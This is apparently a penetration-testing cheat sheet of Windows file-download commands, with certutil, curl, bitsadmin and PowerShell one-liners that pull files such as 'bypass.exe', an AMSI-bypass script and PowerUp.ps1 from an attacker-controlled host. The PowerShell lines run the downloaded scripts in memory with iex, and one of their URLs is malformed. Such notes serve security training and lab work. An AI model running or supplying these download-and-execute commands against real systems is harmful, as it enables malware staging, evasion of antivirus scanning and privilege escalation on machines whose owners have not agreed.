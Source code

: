 ## Windows File Downloads

#### Certutil 
```
certutil -urlcache http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe
```

#### Curl 
```
curl http://192.168.45.201/bypass.exe -o C:\Users\Offsec\bypass.exe
```

#### Bitsadmin 
```
bitsadmin /Transfer myJob http://192.168.45.201/file.txt C:\Windows\Tasks\file.txt
bitsadmin /create 1 bitsadmin /addfile 1 http://lhost/bypass.exe C:\Windows\Tasks\bypass.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
  reference: https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/

#### Powershell 
```
iex(new-object net.webclient).downloadstring('http://192.168.45.201amsi-reflect.ps1')
iex(new-object net.webclient).downloadstring('http://192.168.45.201/PowerUp.ps1'); Invoke-AllChecks
```


